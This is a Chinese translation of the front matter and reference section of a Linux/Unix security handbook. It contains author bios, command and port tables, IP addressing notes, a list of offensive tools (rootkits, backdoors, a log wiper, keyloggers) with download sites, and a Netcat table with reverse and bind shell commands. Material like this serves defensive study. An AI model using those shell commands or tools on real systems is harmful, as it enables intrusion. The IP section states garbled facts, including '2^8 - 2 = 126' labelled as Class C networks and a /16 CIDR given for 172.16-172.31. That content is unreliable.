# Linux 和 Unix 安全便携速查手册（已过时）


献给我的父亲。
献给我的母亲。
还有，献给我的祖母。

## 作者简介

### 尼特斯·丹贾尼

尼特斯·丹贾尼是 Foundstone 公司的信息安全顾问。在 Foundstone 任职期间，尼特斯参与了针对众多财富 500 强企业的各类项目，包括网络、应用程序、主机渗透测试和安全评估，以及安全架构设计服务。尼特斯是《HackNotes: 网络安全便携参考》（麦格劳-希尔/奥兹本出版社，2003 年）的联合作者，也是最新一版畅销安全书籍《黑客曝光：网络安全秘密与解决方案》（麦格劳-希尔/奥兹本出版社，2003 年）的贡献者。他还为多份技术出版物如《Linux Journal》撰写了文章。除了著书，尼特斯还参与并教授了 Foundstone 的“终极黑客：专家级”和“终极黑客”安全课程。

在加入 Foundstone 之前，尼特斯曾在安永华永道会计师事务所的信息安全服务部担任顾问，为 IT 领域的许多重要公司执行攻击和渗透审查。他还为安永华永道会计师事务所的 eSecurity Solutions 部门开发专有网络扫描工具。

尼特斯毕业于普渡大学，拥有计算机科学学士和硕士学位。在普渡大学期间，他参与了 CERIAS 团队（教育和研究信息保证与安全中心）的多个研究项目。他还负责为 IBM、AT&T 和英特尔资助的一个项目创建内容和教授远程交付的 C 和 C++ 编程课程。

尼特斯继续积极参与开源项目、系统编程和 Linux 内核开发。你可以通过 books@dhanjani.com 联系到他。

## 技术审校简介

### 罗伯特·克拉克斯顿

罗伯特·克拉克斯顿是 Foundstone 的信息技术安全顾问。他在系统管理、网络安全和网页制作工程方面有超过六年的经验。罗伯特最初加入 Foundstone 是为了设计和加固 Foundstone 的网站，现在专注于向 Foundstone 的客户提供这些服务。在加入 Foundstone 之前，罗伯特曾为一家互联网服务提供商担任系统管理员。他的职责包括部署、维护和加固业务关键系统，包括 Web 服务器、路由器、DNS 服务器、邮件服务器以及其他互联网交付设备/系统。在加入 Foundstone 之前，罗伯特也曾短暂担任独立承包商，专门从事 Perl/PHP 网页开发。罗伯特持有 Windows NT 的 MSCE 认证。

# 致谢

如果没有许多人的帮助，这本书不可能面世。首先，我要感谢 HackNotes 系列编辑 Mike Horton，他给了我写这本书的机会。也要感谢 McGraw-Hill/Osborne 团队的不懈努力，包括 Jane Brownlow、Athena Honore、Betsy Manini 和 Robert Campbell。

特别感谢 Foundstone 的 Robert Clugston，他负责审核本书的技术内容。

还要感谢我的妻子 Deepti，在我写这本书期间给予了我很大的帮助。

# HACKNOTES：该系列丛书

McGraw-Hill/Osborne 为安全专业人士创建了一套全新的便携式参考书系列。这些速查书页数适中，旨在成为真正便携的参考工具。

HackNotes 系列丛书的目标是：

- 提供高质量、浓缩的安全参考信息，易于访问和使用。
- 通过展示黑客和犯罪分子如何利用已知方法入侵系统以及防御黑客攻击的最佳实践，教育您如何保护您的网络或系统。
- 帮助刚接触每本书中涵盖的安全主题的人员快速入门，并提供一个简洁的知识单一来源。为此，您可能会发现自己需要反复查阅它。

HackNotes 系列丛书的每一本书都设计为易于随身携带或放在电脑包中，不会增加太多重量，也不会在您使用它们时吸引不必要的注意。它们尽可能利用图表、表格和项目符号列表，并且仅在截图对于说明主题要点至关重要时才使用截图。最重要的是，为了使这些便捷的便携式参考书不至于用不必要的冗长文字让您在忙碌的一天中费力阅读，我们保持了写作清晰、简洁且切中要害。

无论您是信息安全领域的新手，需要有用的起点和基本事实，而无需在 400 多页中搜索；无论您是经验丰富的专业人士，深知使用手册作为*外脑*的价值，其中包含大量有用的列表、表格和具体细节，用于快速确认；还是将其作为对某些不太熟悉的安全主题的便捷参考，HackNotes 系列丛书都将帮助您到达您想去的地方。

## 关键系列元素和图标

我们尽最大努力*整理*并尽可能合乎逻辑地呈现这本书。采用紧凑形式，并放入页签以标记主要标题主题。由于参考中心包含您需要快速轻松访问的信息和表格，因此为了方便起见，它被战略性地放置在书中心的蓝色页面上。

### 视觉提示

本书中使用的图标使导航变得非常容易。每种黑客技术或攻击都用特殊的剑图标突出显示。

#### 此图标代表一种黑客技术或攻击


获取有关黑客用于入侵易受攻击系统的各种技术和战术的详细信息。

每当可能时，每种黑客技术或攻击都由一项防御措施来对抗，该项措施也有其自己的特殊盾牌图标。

#### 此图标代表用于对抗黑客技术和攻击的防御步骤


获取有关如何防御所介绍的黑客技术或攻击的简明细节。

HackNotes 设计中还使用了其他特殊元素，其中包含一些小块的知识点，它们从一般文本中突出显示出来，以吸引您的注意力。

这个 "i" 图标提示信息的提醒，这是阅读特定章节内容时应记住的知识。


这个火焰图标代表热门项目或重要问题，不应忽视，以避免各种陷阱。


## 命令与代码清单

在本书中，用户输入的命令行指令均以**粗体**标示，例如：

```
[bash]# whoami
root
```

此外，出现在正文中的常见 Linux 和 Unix 命令及参数，均使用等宽字体加以区分，例如：whoami。

## 期待您的反馈

我们真诚地感谢您对我们图书的关注。希望您觉得这些书既实用又有趣，并欢迎您提出任何建议，以便我们改进未来的作品。HackNotes 系列图书的设计初衷就是满足您的需求。请访问 http://www.hacknotes.com 获取更多关于该系列的信息，并欢迎将您的意见和想法发送至 feedback@hacknotes.com。

## 引言

本书将精确地教你黑客是如何思考的，以便你能够保护你的 Unix 和 Linux 系统免受其侵害。事实上，没有其他方式可以学会如何防止你的系统被入侵。为了阻止最精明的黑客的攻击，你需要理解他们的思维过程、技术和战术。

Unix 和 Linux 操作系统的强大特性是一把双刃剑。在大多数情况下，操作系统内核源代码可以免费获取，管理员甚至可以深入修改操作系统内部机制以满足自身需求。但 Unix 和 Linux 这种强大且灵活的特性也带来了巨大的复杂性，这增加了发生错误配置的可能性，从而轻易使系统处于风险之中。还要考虑如今市面上存在的各种 Unix 和 Linux 发行版。每个发行版都捆绑了其自身的一套安全策略和配置。例如，有些发行版默认关闭了一组远程服务，而有些则开启了所有已配置且采用最弱策略的服务。黑客了解管理 Unix 和 Linux 主机的行政复杂性，并且他们清楚地知道如何利用这些复杂性。本书将向你展示最狡猾黑客战术的细节，并教会你如何防御它们。

不用担心黑客获取本书中呈现的资料。他们已经知道了这些内容。本书的意图是揭露当今黑客使用的战术，以便你学会如何防范它们。一旦你理解了黑客的思维模式以及他们用于入侵系统的多种不同方法，胜算就会站在你这一边。

### 本书结构

本书分为四个主要部分：

#### 第一部分：黑客技术与防御

本书的第一部分遵循当今黑客常用的黑客方法论。本章同时也介绍了针对这些章节中描述的所有黑客技术的防御措施。

- **第 1 章**：我们从理解黑客方法论的第一个逻辑步骤开始：足迹侦察（footprinting）。本章将教你黑客如何从搜索引擎、注册商记录、DNS 记录等公开来源获取信息。一旦黑客从公开来源获取了所有可能的信息，他们就会转向实际的网络和主机识别与扫描。
- **第 2 章**：本章教你如何确定网络上哪些主机是活动的，以及它们开放了哪些端口。讨论了各种类型的端口扫描方法，以及操作系统识别技术和工具。
- **第 3 章**：了解黑客如何识别远程主机上运行的应用程序和服务。本章将向你展示潜在的入侵者使用的许多不同工具和方法，用于枚举用户名和远程服务。
- **第 4 章**：本章揭露了黑客用于访问脆弱主机的确切工具和战术。学习黑客使用的最狡猾的技术，如暴力破解、嗅探、中间人攻击、密码破解、端口重定向、针对错误配置的利用、缓冲区溢出以及许多其他软件漏洞。
- **第 5 章**：通常，利用特定的漏洞只会让黑客获得非特权用户或系统账户的访问权限。在这种情况下，黑客合乎逻辑的下一步是获取超级用户（root）权限。本章向你展示了黑客尝试获取更高权限的多种不同方式。
- **第 6 章**：一旦主机被攻陷，黑客就会想要隐藏其存在，并确保对主机的持续特权访问。本章向你展示了黑客如何通过清理重要日志文件来掩盖其踪迹，以及黑客如何在被攻陷的主机上安装木马、后门和 rootkit。

#### 第二部分：主机加固

本书的第二部分专注于系统管理员可以采取的许多步骤，以加固默认的系统配置和策略。

- **第 7 章**：本章讨论了与加固默认应用程序和服务器配置相关的重要配置问题。强烈建议所有系统管理员考虑本章提出的建议，以阻止入侵者利用薄弱的系统策略和配置。
- **第 8 章**：恶意用户和黑客经常利用不当的用户和文件系统权限。本章将向你介绍 Unix 和 Linux 文件权限，并教你为防止因用户和文件系统权限不当导致的入侵应采取的确切步骤。
- **第 9 章**：每个系统管理员都应实施适当的系统事件日志记录。本章教你如何启用和配置有用的日志服务，以及如何正确设置日志文件的权限以防止其被篡改。保持最新的安全补丁非常重要，本章还提供了获取这些补丁的供应商网站有用链接。

#### 第三部分：专题

本书的第三部分涵盖了一些激动人心的主题，从为 Nessus 扫描器编写插件，到无线黑客技术，再到使用 Zaurus PDA 进行黑客攻击。

- **第 10 章**：Nessus 是当今最受欢迎的漏洞扫描工具之一。它也是免费的，且设计非常模块化。本章将教你如何使用 NASL（Nessus 攻击脚本语言）为 Nessus 扫描器编写自定义漏洞检查插件。
- **第 11 章**：了解黑客如何渗透 802.11 无线网络。本章教你 WEP 协议的弱点，并介绍黑客用于利用无线网络的工具。此外，本章还就如何更好地保护无线网络提供了建议和建议。
- **第 12 章**：Sharp Zaurus PDA 设备运行 Linux 操作系统的嵌入式版本。本章向你展示了 Zaurus PDA 上可用的各种安全工具，以及黑客如何轻松使用它们来渗透无线网络。

#### 参考中心

本节使用蓝色页面印刷，并放置在书的中心位置以便于快速查阅。如果你需要快速获取有关常见命令、常见端口、在线资源、IP 寻址以及有用的 Netcat 命令等主题的信息，请记住翻开本书的这一章。此外，本部分还提供了 ASCII 值表和 HTTP 响应表。

#### 致读者

为了制作这本书，我们投入了大量的精力。我希望你发现其中包含的资料既有信息量又实用。最重要的是，我希望你将本书中提供的信息用于善处，保护并安全加固你的系统和网络，以抵御最精明的黑客。

## 参考中心

| 主题 | 页码 |
| :--- | :--- |
| 常见命令 | RC 2 |
| 常见端口 | RC 7 |
| IP 寻址 | RC 9 |
| 点分十进制表示法 | RC 9 |
| 类别 | RC 9 |
| 子网掩码 | RC 11 |
| CIDR（无类别域间路由） | RC 12 |
| 环回地址 | RC 12 |
| 私有地址 | RC 12 |
| 协议头 | RC 12 |
| 在线资源 | RC 15 |
| 黑客工具 | RC 15 |
| 网络资源 | RC 18 |
| 邮件列表 | RC 19 |
| 会议和活动 | RC 19 |
| 有用的 Netcat 命令 | RC 20 |
| ASCII 表 | RC 22 |
| HTTP 代码 | RC 28 |
| 重要文件 | RC 30 |


本节提供了最常用且最有用的参考资料。如需快速获取有关常用命令、常用端口、在线资源、IP 编址以及实用 Netcat 命令等主题的信息，请务必翻阅本章。此外，本节还提供了 ASCII 码表、HTTP 服务器响应码表以及重要文件的文件权限信息。

## 常用命令

以下是大多数 Unix 和 Linux 发行版的基础安装中常见的常用命令列表。有关特定命令的更多信息，请输入 *man command* 查看其手册页。

| 命令 | 描述 |
|---|---|
| alias | 设置和查看命令别名。 |
| arch | 打印机器架构。 |
| awk | 模式扫描和处理语言。 |
| bash | Bourne 再次 Shell。 |
| bg | 将前台运行的进程移至后台。 |
| biff | 在邮件到达时进行通知。 |
| cat | 拼接并打印文件。 |
| cd | 更改目录。 |
| chage | 更改用户密码过期信息。 |
| chgrp | 更改组所有权。 |
| chmod | 更改文件权限。 |
| chown | 更改文件和组的所有者。 |
| chroot | 在特殊根目录下运行命令。 |
| chsh | 更改登录 Shell。 |
| clear | 清除终端屏幕。 |
| cp | 复制文件和目录。 |
| crontab | 维护 crontab 文件。 |
| csh | C Shell。 |
| cut | 从文件的每一行中移除部分。 |
| date | 打印或设置系统日期和时间。 |
| dd | 转换并复制文件。 |
| df | 打印文件系统的磁盘空间使用情况。 |
| diff | 查找文件之间的差异。 |
| dig | DNS（域名系统）查询实用程序。 |
| dmesg | 打印系统缓冲区中的诊断消息。 |
| dnsdomainname | 显示系统的 DNS（域名系统）域名。 |
| domainname | 显示系统的 NIS（网络信息系统）或 YP（黄页）名称。 |
| du | 估算文件空间使用情况。 |
| echo | 显示一行文本。 |
| env | 在修改后的环境中运行程序。 |
| false | 以表示失败的状态代码退出。 |
| fdisk | 磁盘分区表操作工具。 |
| fg | 将后台运行的进程移至前台。 |
| file | 确定文件类型。 |
| find | 在目录层次结构中搜索文件。 |
| free | 显示系统和使用的空闲内存量。 |
| ftp | FTP 客户端。 |
| fuser | 识别使用文件或套接字的进程。 |
| gcc | GNU C 和 C++ 编译器。 |
| grep | 打印匹配给定模式的行。 |
| groupadd | 创建新组。 |
| groupdel | 删除组。 |
| groupmod | 修改组。 |
| groups | 打印用户所属的所有组。 |
| gunzip | 解压使用 Lempel Ziv 编码压缩的文件。 |
| gzip | 使用 Lempel Ziv 编码压缩文件。 |
| host | DNS（域名系统）查询实用程序。 |
| hostname | 显示或设置系统主机名。 |
| id | 打印真实和有效用户 ID 及组 ID。 |
| ifconfig | 配置网络接口。 |
| kill | 终止进程。 |
| ksh | Korn shell。 |
| last | 显示最后登录用户的列表。 |
| lastlog | 显示账户的最后登录时间。 |
| ln | 在文件之间建立链接。 |
| ls | 列出目录内容。 |
| mail | 发送和接收邮件。 |
| man | 格式化并显示手册页。 |
| mesg | 控制对终端的写入访问。 |
| mkdir | 创建目录。 |
| more | 一次显示一屏的文件内容。 |
| mount | 挂载文件系统。 |
| mv | 移动和重命名文件和目录。 |
| netstat | 打印网络连接、路由表、接口统计、伪装连接和多播成员资格。 |
| nice | 以修改后的调度优先级运行程序。 |
| nslookup | 查询互联网名称服务器。 |
| passwd | 更改登录和密码属性。 |
| ping | 向网络主机发送 ICMP ECHO_REQUEST。 |
| ps | 报告进程状态。 |
| pwd | 打印工作目录的名称。 |
| quota | 显示磁盘使用量和限制。 |
| quotaoff | 关闭文件系统配额。 |
| quotaon | 开启文件系统配额。 |
| repquota | 汇总文件系统的配额。 |
| rm | 删除文件或目录。 |
| rmdir | 删除空目录。 |
| route | 显示或操作系统路由表。 |
| rpcinfo | 报告 RPC（远程过程调用）信息。 |
| sed | 流编辑器。 |
| setquota | 设置磁盘配额。 |
| showmount | 显示 NFS（网络文件系统）服务器的挂载信息。 |
| shutdown | 关闭系统。 |
| sleep | 延迟指定的时间。 |
| sort | 对文本文件的行进行排序。 |
| strace | 跟踪系统调用和信号。 |
| strings | 打印文件中的可打印字符。 |
| su | 以替代的用户和组 ID 运行 shell。 |
| tail | 输出文件的最后部分。 |
| tar | 归档实用程序。 |
| tcsh | 具有文件名补全和命令编辑功能的 C shell。 |
| telnet | Telnet 客户端。 |
| tftp | TFTP（简单文件传输协议）客户端。 |
| traceroute | 打印数据包到达目标主机所经过的路由。 |
| true | 以表示成功的状态代码退出。 |
| umount | 卸载文件系统。 |
| uname | 打印系统信息。 |
| useradd | 创建新用户。 |
| userdel | 删除用户账户。 |
| uptime | 打印系统已运行的时间。 |
| vi | 文本编辑器。 |
| w | 显示已登录的用户及其正在执行的操作。 |
| wall | 向每个用户的终端发送消息。 |
| wc | 打印文件中的字节数、单词数和行数。 |
| whereis | 定位命令的二进制文件、源文件和手册页文件。 |
| which | 显示命令的完整路径。 |
| who | 显示已登录的用户。 |
| whoami | 打印有效用户 ID。 |
| write | 向其他用户发送消息。 |
| ypdomainname | 显示或设置系统的 NIS（网络信息系统）或 YP（黄页）域名。 |

## 常用端口

以下是与最常用的 Unix 和 Linux 服务相对应的端口名称和服务列表。

> 如需更全面的列表，请参阅 /etc/services 文件。

| 服务 | 端口 |
| :--- | :--- |
| Echo | 7 |
| Daytime | 13 |
| qotd (Quote Of The Day) | 17 |
| FTP-data | 20 |
| FTP | 21 |
| SSH | 22 |
| Telnet | 23 |
| SMTP (Simple Mail Transfer Protocol) | 25 |
| Time server | 37 |
| Whois | 43 |
| DNS (Domain Name System) | 53 |
| TFTP (Trivial File Transfer Protocol) | 69 |
| Finger | 79 |
| HTTP (Hypertext Transfer Protocol) | 80 |
| POP2 (Post Office Protocol 2) | 109 |
| POP3 (Post Office Protocol 3) | 110 |
| Portmapper | 111 |
| Ident | 113 |
| NNTP (Network News Transfer Protocol) | 119 |
| NTP (Network Time Protocol) | 123 |
| Samba | 137-139 |
| IMAP2 (Internet Message Access Protocol) | 143 |
| SNMP (Simple Network Management Protocol) | 161 |
| BGP (Border Gateway Protocol) | 179 |
| IMAP3 (Internet Message Access Protocol) | 220 |
| LDAP (Lightweight Directory Access Protocol) | 389 |
| HTTPS (Secure Hypertext Transfer Protocol) | 443 |
| rlogin | 513 |
| rsh | 514 |
| Line printer (lpr) spooler | 515 |
| Talk | 517 |
| Time server | 525 |
| NNTPS (Secure Network News Transfer Protocol) | 563 |
| IPP (Internet Printing Protocol) | 631 |
| LDAPS (Secure Lightweight Directory Access Protocol) | 636 |
| IMAPS (Secure Internet Message Access Protocol) | 993 |
| POP3S (Secure Post Office Protocol) | 995 |
| NFS (Network File System) | 2049 |
| MySQL | 3306 |
| VNC (Virtual Network Computing) | 5800+ 5900+ |
| X11 | 6000–6063 |
| XFS (X Font Server) | 7100 |

## IP 编址

本节提供了关于 IP 编址主题的简明详细信息，包括 IP 地址分类以及 IP、TCP 和 UDP 的协议头部。

### 点分十进制表示法

IP 地址的长度为 32 位，例如：

```
11000000 10101000 00000001 00000001
```

为了便于人类阅读，IP 地址采用点分十进制表示法表示，例如：

```
192.168.1.1
```

### 类别

IP 地址被分为五个不同的类别，用于分配不同大小的网络。这些类别在以下标题中列出了。

### A 类

A 类 IP 地址已分配给拥有少量网络但每个网络上有大量主机的非常大型组织。请注意，A 类 IP 地址不再积极分配。

0        8                31

| 0 | 网络 | 主机 |

- **第一个八位组** 范围从 1 到 126。第一位始终为 0。
- **最大网络数** 网络地址由第一个八位组表示。因此，2^{8} - 2 = 126 是可能的最大 **C 类** 网络数量。
- **每个网络的最大主机数** 主机由最后三个八位组表示。因此，每个网络可以有 2^{24} - 2 = 16,777,214 台主机。大多数组织远没有这么多主机，因此 A 类 IP 地址的大部分通常被浪费。


B 类地址分配给由大量网络和主机组成的组织。因此，许多 ISP 都被分配了 B 类地址。

首个八位组：范围从 128 到 191。前两位是 1 和 0。
- 最大网络数：网络地址由第一个和第二个八位组表示。因此，$2^{14}$ = 16,384 个 B 类网络是可能的。
- 每个网络的最大主机数：主机由最后两个八位组表示。因此，$2^{16} - 2$ = 每个网络可有 65,534 个主机。

C 类地址由每个网络中主机数量较少的组织使用。

首个八位组：范围从 192 到 223。前三位是 1、1 和 0。
- 最大网络数：网络地址由第一个、第二个和第三个八位组表示。因此，$2^{21}$ = 2,097,152 个 C 类网络是可能的。
- 每个网络的最大主机数：主机由最后一个八位组表示。因此，$2^{8} - 2$ = 每个网络可有 254 个主机。

## D 类

D 类是一个保留的类别，旨在用于向一组主机发送多播消息。

| 位 | 0 | 1 | 2 | 3 | 4-31 |
| :--- | :-: | :-: | :-: | :-: | :-: |
| 值 | 1 | 1 | 1 | 0 | 多播地址 |

- **首个八位组**：范围从 224 到 239。前四位是 1、1、1 和 0。

## E 类

E 类是一个保留的类别。互联网上没有分配属于此类的 IP 地址。

| 位 | 0 | 1 | 2 | 3 | 4-31 |
| :--- | :-: | :-: | :-: | :-: | :-: |
| 值 | 1 | 1 | 1 | 1 | 0... 保留 |

- **首个八位组**：范围从 240 到 255。前五位是 1、1、1、1 和 0。

## 子网掩码

网络地址和主机地址通过使用子网掩码来识别。**子网掩码**是一组与给定地址的网络部分相匹配的位。例如，以下是一个 B 类 IP 地址的网络掩码：

```
11111111  11111111  00000000  00000000
```

上述掩码在点分十进制表示法中为 255.255.0.0。

## CIDR（无类别域间路由）

由于互联网的迅猛发展，刚才列出的五类 IP 地址不足以容纳所需的众多网络方案。

旨在满足这一不断增长的需求的 CIDR 地址使用以下表示法：

```
前缀/掩码
```

其中，前缀是 IP 地址前缀，掩码是网络掩码的长度。例如：

```
192.168.1.0/24
```

在此处，前缀长度为 24 位，而后缀为剩余的 8 位。因此，该 CIDR 类将包含以下 IP 地址：192.168.1.0–192.168.1.255。

## 回环

以下范围被称为“回环”范围：

```
127.0.0.0/8
```

此范围用于指定本地主机的回环地址。发送到该范围内任何地址的数据包都会返回到该主机。请注意，发往回环范围内 IP 地址的数据包不会传播到硬件网络设备，因此永远不会被放置在物理网络线缆上。

## 私有地址

互联网号码分配机构（IANA）已保留以下三个 IP 地址块用于私有内部网络：

```
10.0.0.0-10.255.255.255 (CIDR 表示法: 10.0.0.0/8)
172.16.0.0-172.31.255.255 (CIDR 表示法: 172.16.0.0/16)
192.168.0.0-192.168.255.255 (CIDR 表示法: 192.168.0.0/16)
```

## 协议报头

RFC（请求评论意见）文档提供了关于 TCP/IP 协议实现的详细信息。这些文档包含协议报头信息，此处列举了其中几个示例。



通常，IP 报头不包含选项字段，因此长度为 20 字节。当存在选项字段时，其实际长度由总长度字段表示，该字段包含整个数据包（报头和数据）的长度。更多详情请参阅 RFC 791：[http://www.faqs.org/rfcs/rfc791.html](http://www.faqs.org/rfcs/rfc791.html)。

### TCP（传输控制协议）报头

每个 TCP 数据包都封装在 IP 数据包的数据字段中，该字段紧随 IP 报头之后。以下表示 TCP 报头的布局。请注意，报头顶部的数字各代表一个字节。



更多详情请参阅 RFC 793：[http://www.faqs.org/rfcs/rfc793.html](http://www.faqs.org/rfcs/rfc793.html)。

### UDP（用户数据报协议）报头

与 TCP 类似，每个 UDP 数据包也封装在 IP 报头的字段中。以下表示 UDP 报头的布局。报头顶部的数字各代表一个字节。

| 字节 | 0-7 | 8-15 | 16-23 | 24-31 |
| :--- | :--- | :--- | :--- | :--- |
| 字段 | 源端口 | 目的端口 | 长度 | 校验和 |
| 数据 | 数据八位组 ... |

更多详情请参阅 RFC 768：[http://www.faqs.org/rfcs/rfc768.html](http://www.faqs.org/rfcs/rfc768.html)。

## 在线资源

除了书中提到的各种在线资源外，本节还提供了额外的资源指针，可用于跟踪安全领域的最新动态。

> 请记得查看 http://www.hacknotes.com/ 以获取最新的安全资源。

## 黑客工具

下表列出了当今黑客最常用的黑客工具。本表中提到的大多数工具在本书第一部分中都有使用。还提供了这些工具下载地址的 URL。

| 名称 | 描述 | 位置 |
| :--- | :--- | :--- |
| Airsnort | 流行的 WEP 破解工具 (802.11b) | http://airsnort.shmoo.com/ |
| Adore | 后门 | http://www.team-teso.net/releases.php |
| Amap | 识别远程应用程序 | http://www.tce.org/releases.php |
| Cheops | 基于 GUI 的工具，识别网络上关于主机的信息 | http://www.marko.net/cheops/ |
| Desproxy | 通过 Web 代理隧道传输 TCP 流量的命令行工具 | http://desproxy.sourceforge.net/ |
| Dsniff | 网络嗅探工具集 | http://monkey.org/~-dugsong/dsniff/ |
| Ethereal | 基于 GUI 的网络嗅探器 | http://www.ethereal.com/ |
| Etercap | 基于 Ncurses 的网络嗅探器 | http://etercap.sourceforge.net/ |
| Fata-Jack | 对 802.11 网络执行拒绝服务攻击 | http://www.loud-fat-bloke.co.uk/w80211.html |
| Firewalk | 类似 traceroute 的工具，确定网关访问控制列表 | http://www.packetfactory.net/projects/firewalk/ |
| Fragroute | 拦截、修改和重写网络流量 | http://www.monkey.org/~-dugsong/fragroute/ |
| Hping2 | 命令行 TCP/IP 数据包组装器和分析器 | http://www.hping.org/ |
| Hunt | 执行 TCP 劫持 | http://lin.fsid.cvuut.cz/-kralindex.html#HUNT |
| Hydra | 主动密码暴力破解器 | http://www.thc.org/releases.php |
| John | 被动密码破解器 | http://www.openwall.com/john/ |
| Kismet | 识别该区域无线网络的网络嗅探器 | http://www.kismetwireless.net/download.shtml |
| Kniark | 根目录工具包 (Rootkit) | http://www.packetstormsecurity.org/ |
| Linux Root Kit (LRK) | 根目录工具包 (Rootkit) | http://www.packetstormsecurity.org/ |
| Loki2 | 后门 | http://www.phrack.com/show.php?p=51&a=6 |
| Nemeses | 命令行网络数据包注入工具集 | http://www.packetfactory.net/projects/nemeses/ |
| Nessus | 漏洞扫描器 | http://www.nessus.org/ |
| Netcat | 跨网络读写数据。支持 TCP 和 UDP 协议。 | http://www.atstake.com/research/tools/network_utilities/ |
| Ngrep | 类似于 grep 命令，但用于分析网络数据包。 | http://www.packetfactory.net/projects/ngrep/ |
| Nikto | Web 服务器和 Web 应用程序漏洞扫描器 | http://www.cirt.net/code/nikto.shtml |
| Nmap | 端口扫描器 | http://www.insecure.org/nmap/ |
| Openssl | 建立 SSL 连接 | http://www.openssl.org/ |
| Snmpwalk | SNMP 查询工具 | http://www.net-snmp.org/ |
| Snort | 网络嗅探器和入侵检测系统 | http://www.snort.org/ |
| Spike Proxy | HTTP 和 HTTPS 代理 | http://www.immunitysec.com/spikeproxy.html |
| Stunnel | SSL 封装器 | http://www.stunnel.org/ |
| Tcpdump | 命令行嗅探器 | http://www.tcpdump.org/ |
| Tornkit | 根目录工具包 (Rootkit) | http://www.packetstormsecurity.org/ |


| 名称 | 描述 | 位置 |
| :--- | :--- | :--- |
| Wget | 命令行 HTTP、HTTPS 和 FTP 客户端 | http://wget.suntsite.dk/ |
| Wlan-Jack | 对 802.11 网络执行拒绝服务攻击 | http://802.11ninjas.net/ |
| Xkey | 记录远程 X 会话的按键 | http://packetstormsecurity.org/ |
| Xprobe2 | 使用 ICMP 数据包执行操作系统指纹识别 | http://www.sys-security.com/html/tools/tools.html |
| Xremote | 向远程 X 会话发送鼠标和键盘事件 | http://www.infa.abo.fi/~chakie/xremote/ |
| Xscan | 记录远程 X 会话的按键 | http://packetstormsecurity.org/ |
| Xwatchwin | 监视远程 X 客户端 | http://packetstormsecurity.org/ |
| Vncrack | 破解和暴力破解 VNC 密码 | http://www.phenoelit.de/vncrack/ |
| Whisker | Web 服务器和 Web 应用程序漏洞扫描器 | http://www.wiretrip.net/rfp/doc.asp/12/d21.htm |
| Zap3 | 日志擦除器 | http://www.packetstormsecurity.org/ |
| Zebedee | 创建安全的 TCP 和 UDP 隧道 | http://www.winton.org.uk/zebedee/ |

# 网络资源

下表列出了最受欢迎的与安全相关的网络门户网站的位置。建议经常访问这些资源，以获取最新的安全新闻。

| 描述 | 位置 |
| --- | --- |
| 新闻、文章、邮件列表、漏洞和利用代码数据库 | http://securityfocus.com/ |
| 新闻、工具、公告和利用代码 | http://packetstormsecurity.nl/ |
| 工具、文章和链接 | http://insecure.org/ |
| CERT 协调中心：漏洞事件、安全实践、统计数据和培训 | http://www.cert.org/ |
| CVE（通用漏洞和暴露） | http://www.cve.mitre.org/ |
| SANS（系统管理、审计、网络、安全）研究所 | http://www.sans.org/ |
| CIAC（计算机事件告警能力） | http://www.ciac.org/ciac/ |
| 工具和论文 | http://www.packetfactory.net/ |
| 文章、公告、邮件列表和工具 | http://attrition.org/ |
| Phrack 杂志 | http://phrack.com/ |
| 2600：黑客季刊 | http://www.2600.com/ |
| 讨论区、链接和下载 | http://www.antionline.com/ |
| 漏洞披露列表 | http://www.vulnwatch.org/ |
| 文章和各种邮件列表存档 | http://www.neohapsis.com/ |
| 新闻、分析和评估 | http://internetsecuritynews.com/ |
| CERIA（信息保障与安全教育和研究中心） | http://www.cerias.purdue.edu/ |
| 新闻和文章 | http://www.hideaway.net/ |

# 邮件列表

下表列出了热门安全邮件列表的指引。建议订阅这些列表，因为它们会及时宣布最新的公告和漏洞。

| 描述 | 资源 |
|---|---|
| Bugtraq、渗透测试、Web 应用程序安全及其他许多列表 | [http://securityfocus.com/archive](http://securityfocus.com/archive) |
| CERT 公告邮件列表 | [http://www.cert.org/contact_cert/certmaillist.html](http://www.cert.org/contact_cert/certmaillist.html) |
| SANS（系统管理、审计、网络、安全）通讯 | [http://sans.org/sansnews](http://sans.org/sansnews) |

# 会议和活动

安全会议在全球各地举办，由领域专家展示计算机安全领域的动态。下表列出了流行的安全会议。

| 描述 | 资源 |
|---|---|
| Blackhat | [http://www.blackhat.com/](http://www.blackhat.com/) |
| DEF CON | [http://www.defcon.org/](http://www.defcon.org/) |
| SANS（系统管理、审计、网络、安全） | [http://www.sans.org/](http://www.sans.org/) |
| CSI（计算机安全协会） | [http://www.gocsi.com/](http://www.gocsi.com/) |
| RSA | [http://www.rsasecurity.com/company/events/index.html](http://www.rsasecurity.com/company/events/index.html) |


# 有用的 Netcat 命令

Netcat 是一个命令行工具，通过 TCP 和 UDP 协议在网络上传输数据。由于其能执行许多不同的功能，它被称为“网络瑞士军刀”。下表提供了最有用的 Netcat 命令的快速使用指南。

ⓘ Netcat 默认使用 TCP 协议。可以使用许多命令中的 `-u` 标志，使 Netcat 改用 UDP。

| 描述 | 命令 |
| --- | --- |
| 连接到远程主机上的端口 | nc remote_host <port> |
| 连接到远程主机上的多个端口 | nc remote_host <port>..<port><br>例如：<br>nc www.somecompanyasanexample.com 21 25 80 |
| 监听端口以接受传入连接 | nc -v -l -p <port> |
| 连接到远程主机并提供 bash shell | nc remote_ip <port> -e /bin/bash<br>注意 Netcat 默认不支持 -e 标志。为了使 Netcat 支持 -e 标志，必须使用 DGAPING_SECURITY_HOLE 选项重新编译它。 |
| 监听端口并在连接时提供 bash shell | nc -v -l -p <port> -e /bin/bash<br>注意 Netcat 默认不支持 -e 标志。为了使 Netcat 支持 -e 标志，必须使用 DGAPING_SECURITY_HOLE 选项重新编译它。 |
| 扫描远程主机的端口 | nc -v -z remote_host <port>--<port><br>使用 -i 标志设置延迟间隔：<br>nc -i <seconds> -v -z remote_host <port>--<port> |
| 将命令输出管道传输到 netcat 请求 | <command> \| nc remote_host <port><br>例如：<br>echo "GET / HTTP/1.0 [enter] [enter] \*" \| nc www.somecompanyasanexample.com 80 |
